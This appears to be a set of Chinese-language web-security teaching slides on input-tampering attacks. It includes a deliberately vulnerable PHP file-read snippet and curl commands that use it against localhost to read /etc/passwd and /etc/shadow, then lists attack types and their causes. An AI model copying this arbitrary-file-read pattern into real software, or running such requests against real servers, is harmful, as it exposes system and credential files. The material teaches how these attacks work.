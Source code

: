 ## 缺陷代码示例

```{.php .number-lines}
<?php
$file = $_GET['file'];
echo file_get_contents($file);
```

---

## 利用方式示例

```bash
curl "http://127.0.0.1:8080/exp-1.php?file=exp-1.php"
curl "http://127.0.0.1:8080/exp-1.php?file=/etc/passwd"
curl "http://127.0.0.1:8080/exp-1.php?file=/etc/shadow"
```

---

## 基本原理

攻击者可以篡改 `HTTP 请求消息` 的任何一个部分

* HTTP 请求行 
* HTTP 请求头 
* HTTP 请求体

---

## 常见的输入篡改攻击

* 强制浏览
* 命令注入
* 跨站点脚本攻击
* 缓冲区溢出攻击
* 格式化字符串攻击
* SQL 注入
* Cookie 毒化
* 隐藏域控制

---

## 输入篡改攻击的成因

* 只在客户端进行输入验证
* 过滤时未进行规范化
* 过滤后引入新漏洞

---

## 典型漏洞利用方法
